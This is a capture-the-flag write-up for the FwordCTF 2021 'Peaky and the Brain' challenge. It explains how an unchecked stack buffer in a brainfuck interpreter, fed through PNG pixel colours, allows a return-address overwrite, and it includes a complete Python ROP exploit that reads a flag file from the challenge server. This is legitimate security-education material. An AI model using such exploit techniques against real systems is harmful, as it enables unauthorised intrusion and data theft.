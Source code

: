 ​​**Peaky and the Brain**

was a pwn challenge from FwordCTF 2021

basically, it was a web application write in python,

that accept a png picture as input, and a small text.

The interface looks like this. (a bit ugly I know..)

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/interface.png)

The image was converted to brainfuck according to pixel color values.

then the brainfuck was pass to a binary interpreter.

The text that was input in arg window on the webpage, was also pass to the interpreter,

and store in a buffer on .bss at a fixed address, we will use it to pass the filename we want to read for the ROP.

the output of the interpreter was return back in the web page.

the interpreted has a seccomp in place, that forbid execve (no shell exec),  socket (no connect back shellcode), mprotect (no shellcode so...)

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/seccomp.png)

as always with brainfuck challenge, the interpreter does not check boundaries when accessing his buffer on stack.

so we can write value after the 79 bytes buffer on stack , and modify the interpreter return address..

and write a ROP in stack, to do a simple open/read/write ROP, that will dump the flag to stdout,

the stdout output, will be return to us on the webpage..

Here is the python code to do that so...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import requests
import png
import StringIO

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./interpreter')
rop = ROP(exe)

# brainfuck instructions to color translation table
colors = {'>' : (255,0,0), '.' :  (0,255,0), '<' : (0,0,255), '+' : (255,255,0), '-' : (0,255,255), '[' : (255,0,188), ']' : (255,128,0), ',' : (102,0,204) }

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]

# simple rop open file, read it, write it to stdout
payload = p64(pop_rdi) + p64(0x4e5360) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(exe.symbols['open'])
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(0x4e5370) + p64(pop_rdx) + p64(100) + p64(exe.symbols['read'])
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(0x4e5370) + p64(pop_rdx) + p64(100) + p64(exe.symbols['write'])
payload += p64(exe.symbols['exit'])

# translate ROP payload to brainfuck instructions
code  = '>'*0x78	# first we advance in stack to reach return address
# write each qword with brainfuck
for c in payload:
  code += '[-]'+'+'*ord(c)+'>'

# generate png image from code
img = []
row = ()
for x in range(len(code)):
     row = row + colors[code[x]]
img.append(row)
with open('picture.png', 'wb') as f:
    w = png.Writer(len(code), 1, greyscale=False)
    w.write(f, img)

print('posting picture...')
url = "http://40.71.72.198:8080/"
files = {'file': open("picture.png","rb").read()}
data = {'text':'/data/flag.txt'}
r = requests.post(url, files=files, data=data)

print('FLAG:')
for line in StringIO.StringIO(r.text).readlines():
  if 'FwordCTF' in line:
    print(line.split(b'<p># ')[1])
```

and the code in action

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/gotflag.gif)

*nobodyisnobody still pwning things...*

